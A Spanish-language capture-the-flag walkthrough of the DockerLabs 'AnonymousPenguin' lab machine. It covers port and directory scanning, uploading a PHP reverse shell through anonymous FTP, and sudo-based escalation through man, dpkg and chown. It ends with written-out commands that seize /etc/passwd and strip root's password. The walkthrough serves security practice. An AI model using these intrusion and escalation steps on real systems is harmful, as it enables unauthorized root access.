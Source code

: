 ```yaml
---
title: AnonymousPenguin - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/65e4d789-ef58-4b48-b859-b660d16e62cc)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 21 `FTP` y el puerto 80 `HTTP`

## Web
Si accedemos a la pagina web vemos lo siguiente 

![image](https://github.com/romabri/romabri.github.io/assets/51706860/a60d4c2f-4f5d-4c84-a802-68365148a8b2)


Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre


![image](https://github.com/romabri/romabri.github.io/assets/51706860/cbdf14b6-a616-4c7d-9378-d264b5ed6721)

Vemos que hay un directorio upload pero no hay nada dentro vamos a intentar subir desde el ftp una reverse shell a la carpeta upload y asi conseguir acceso al PC

Vemos que hemos podido subir el archivo de la reverse shell php 

## FTP

`ftp 172.17.0.2`

Accedemos como anonymous

![image](https://github.com/romabri/romabri.github.io/assets/51706860/07811535-c2e2-49f0-88a4-b5b7de20e9e6)

Y en el directorio web upload también aparace

Entonces en este directorio vamos a subir un php reverse shell de las `webshells`

![image](https://github.com/romabri/romabri.github.io/assets/51706860/87855e3d-31db-4c4a-97fb-77a5b3597be7)

Vamos a ponernos en escucha con NetCat

![image](https://github.com/romabri/romabri.github.io/assets/51706860/d3d92202-f99f-4a93-9800-52353cfb2cb3)


## Intrusión Maquina

Ya estamos dentro de la maquina 
Si ejecutamos un sudo -l vemos ue podemos ejecutar man como Pingu para ello hemos de hacer lo siguiente:

![image](https://github.com/romabri/romabri.github.io/assets/51706860/b31ce2ed-bd3a-4cc0-988c-2f65d8e1a4fd)

Usamos sudo -u pingu para ejecutar el binario man como ese usuario

Ahora si desde el usuairo pingu ejecutamos sudo -l podemos ejecutar nmpa y dpkg como el usuario gladys

![image](https://github.com/romabri/romabri.github.io/assets/51706860/ae1094b1-a720-4478-b727-412face2d07f)

Vamos a usar dpkg para la escalada a gladys

![image](https://github.com/romabri/romabri.github.io/assets/51706860/ddfdc958-583e-4895-a2a2-fea73df5ccf7)

Por ultimo si ejecutamos un sudo -l desde el usuario gladys vemos que podemos ejecutar chown como root 


![image](https://github.com/romabri/romabri.github.io/assets/51706860/4c74f69a-7702-4968-a353-5a22faa8b79a)


Para escalar lo que tenemos que hacer es cambiar el propietario de /etc/passwd de la siguente manera:

`sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd`

Luego con sed hacemos que elimine la X que tiene root para que la contraseña desaparezca y creamos un archivo temporal en tmp.

`sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp`

Para finalizar copiamos el tmp donde esta el original para que lo sobreescriba

`cp /tmp/passwd.tmp /etc/passwd`

Ahora hacemos un su ROOT y accederemos al usuario ROOT sin proporcionar contraseña

![image](https://github.com/romabri/romabri.github.io/assets/51706860/85cce3f6-7b30-4f28-981f-55b8e6eaa4b2)







